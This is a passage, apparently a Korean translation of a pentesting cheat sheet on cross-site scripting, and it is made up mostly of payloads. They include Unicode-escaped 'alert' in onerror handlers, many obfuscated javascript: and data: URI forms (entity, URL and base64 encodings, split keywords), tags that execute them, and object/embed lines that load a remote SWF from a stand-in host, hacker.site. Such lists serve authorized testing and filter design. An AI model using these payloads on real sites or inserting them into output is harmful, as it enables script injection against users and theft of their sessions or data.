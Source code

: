 **유니코드 인코딩을 사용하여 이벤트 내부 우회**
```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```
### 특수 프로토콜 속성 내부

거기에서는 일부 위치에서 **임의의 JS 코드를 실행**하기 위해 **`javascript:`** 또는 **`data:`** 프로토콜을 사용할 수 있습니다. 일부는 사용자 상호 작용을 필요로 할 수 있고 일부는 그렇지 않을 수도 있습니다.
```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3aalert(1)
java        //Note the new line
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```
**이러한 프로토콜을 삽입할 수 있는 위치**

**일반적으로** `javascript:` 프로토콜은 `href` 속성을 허용하는 **모든 태그에서 사용**할 수 있으며 **대부분**의 `src` 속성을 허용하는 태그에서도 사용할 수 있습니다 (**<img>는 제외**).
```markup
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf
<iframe srcdoc="<svg onload=alert(4);>">
```
**다른 난독화 트릭**
